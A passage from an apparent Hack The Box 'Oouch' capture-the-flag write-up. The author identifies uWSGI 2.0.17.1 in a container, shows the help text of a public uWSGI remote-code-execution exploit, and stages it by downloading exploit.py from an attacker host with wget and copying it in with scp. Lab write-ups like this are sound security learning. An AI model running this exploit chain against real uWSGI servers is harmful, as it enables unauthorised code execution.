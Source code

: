 ```nix
qtc         88  0.0  0.0   7640  2788 pts/0    R+   04:43   0:00 ps aux
```

> **What is uWSGI?** uWSGI is a software application that "aims at developing a full stack for building hosting services". It is named after the Web Server Gateway Interface, which was the first plugin supported by the project

I checked its version

```nix
qtc@aeb4525789d8:/code$ uwsgi --version
2.0.17.1
```

I searched for any exploits available for it and found this.

> [https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

I tried the python exploit and checking help reveals that we need to add these options while execution and I checked if `/tmp/uwsgi.sock` is present and socket file is saved in `/tmp/uwsgi.socket`. So Its time to upload.

```nix
root@kali:~/CTF/HTB/Boxes/Oouch# python exploit.py --help
usage: exploit.py [-h] [-m [{http,tcp,unix}]] -u [UWSGI_ADDR] -c [COMMAND]

This is a uwsgi client & RCE exploit. Last modifid at 2018-01-30 by
wofeiwo@80sec.com

optional arguments:
  -h, --help            show this help message and exit
  -m [{http,tcp,unix}], --mode [{http,tcp,unix}]
                        Uwsgi mode: 1. http 2. tcp 3. unix. The default is
                        tcp.
  -u [UWSGI_ADDR], --uwsgi [UWSGI_ADDR]
                        Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock
  -c [COMMAND], --command [COMMAND]
                        Command: The exploit command you want to execute, must
                        have this.

Example：uwsgi_exp.py -u 1.2.3.4:5000 -c "echo 111>/tmp/abc"
```

The Docker doesn't contain `wget` so I first uploaded it to the normal box and by using `scp` I transferred to the Docker.

```nix
qtc@oouch:~$ wget http://10.10.14.9:8000/exploit.py
--2020-06-09 08:01:59--  http://10.10.14.9:8000/exploit.py
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4427 (4.3K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                    100%[===============================================>]   4.32K  --.-KB/s    in 0.02s   

2020-06-09 08:02:00 (219 KB/s) - ‘exploit.py’ saved [4427/4427]

qtc@oouch:~$ scp -i .ssh/id_rsa exploit.py qtc@172.18.0.3:/tmp/
exploit.py                                                                                                                                   100% 4427     7.3MB/s   00:00
```
